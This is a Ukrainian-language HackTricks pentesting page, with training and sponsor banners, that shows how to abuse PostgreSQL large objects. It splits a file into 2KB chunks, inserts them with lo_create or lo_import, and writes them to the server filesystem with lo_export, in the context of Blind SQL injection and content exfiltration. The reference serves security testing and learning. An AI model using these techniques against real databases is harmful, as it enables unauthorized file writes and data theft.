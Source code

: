 {% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

### PostgreSQL Великі Об'єкти

PostgreSQL пропонує структуру, відому як **великі об'єкти**, доступну через таблицю `pg_largeobject`, призначену для зберігання великих типів даних, таких як зображення або PDF-документи. Цей підхід є вигіднішим у порівнянні з функцією `COPY TO`, оскільки він дозволяє **експортувати дані назад до файлової системи**, забезпечуючи точну копію оригінального файлу.

Для **зберігання повного файлу** в цій таблиці, об'єкт повинен бути створений у таблиці `pg_largeobject` (ідентифікований за LOID), після чого дані вставляються у частини, кожна з яких має розмір 2KB. Важливо, щоб ці частини були точно 2KB (з можливим винятком останньої частини), щоб функція експорту працювала правильно.

Щоб **поділити ваші бінарні дані** на частини по 2KB, можна виконати такі команди:
```bash
split -b 2048 your_file # Creates 2KB sized files
```
Для кодування кожного файлу в Base64 або Hex можна використовувати такі команди:
```bash
base64 -w 0 <Chunk_file> # Encodes in Base64 in one line
xxd -ps -c 99999999999 <Chunk_file> # Encodes in Hex in one line
```
**Важливо**: При автоматизації цього процесу переконайтеся, що надсилаєте частини по 2 КБ чистих байтів. Файли в шістнадцятковому кодуванні вимагатимуть 4 КБ даних на частину через подвоєння розміру, тоді як файли в Base64 кодуванні слідують формулі `ceil(n / 3) * 4`.

Вміст великих об'єктів можна переглядати для налагодження за допомогою:
```sql
select loid, pageno, encode(data, 'escape') from pg_largeobject;
```
#### Використання `lo_creat` та Base64

Щоб зберегти бінарні дані, спочатку створюється LOID:
```sql
SELECT lo_creat(-1);       -- Creates a new, empty large object
SELECT lo_create(173454);  -- Attempts to create a large object with a specific OID
```
В ситуаціях, що вимагають точного контролю, таких як експлуатація Blind SQL Injection, `lo_create` є переважним для вказівки фіксованого LOID.

Частини даних можна вставити наступним чином:
```sql
INSERT INTO pg_largeobject (loid, pageno, data) VALUES (173454, 0, decode('<B64 chunk1>', 'base64'));
INSERT INTO pg_largeobject (loid, pageno, data) VALUES (173454, 1, decode('<B64 chunk2>', 'base64'));

```
Щоб експортувати та потенційно видалити великий об'єкт після використання:
```sql
SELECT lo_export(173454, '/tmp/your_file');
SELECT lo_unlink(173454);  -- Deletes the specified large object
```
#### Використання `lo_import` та Hex

Функція `lo_import` може бути використана для створення та вказівки LOID для великого об'єкта:
```sql
select lo_import('/path/to/file');
select lo_import('/path/to/file', 173454);
```
Після створення об'єкта дані вставляються по сторінках, забезпечуючи, щоб кожен фрагмент не перевищував 2KB:
```sql
update pg_largeobject set data=decode('<HEX>', 'hex') where loid=173454 and pageno=0;
update pg_largeobject set data=decode('<HEX>', 'hex') where loid=173454 and pageno=1;
```
Щоб завершити процес, дані експортуються, а великий об'єкт видаляється:
```sql
select lo_export(173454, '/path/to/your_file');
select lo_unlink(173454);  -- Deletes the specified large object
```
### Обмеження

Зазначено, що **великі об'єкти можуть мати ACL** (Списки контролю доступу), що потенційно обмежує доступ навіть до об'єктів, створених вашим користувачем. Однак старі об'єкти з ліберальними ACL можуть все ще бути доступними для ексфільтрації контенту.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
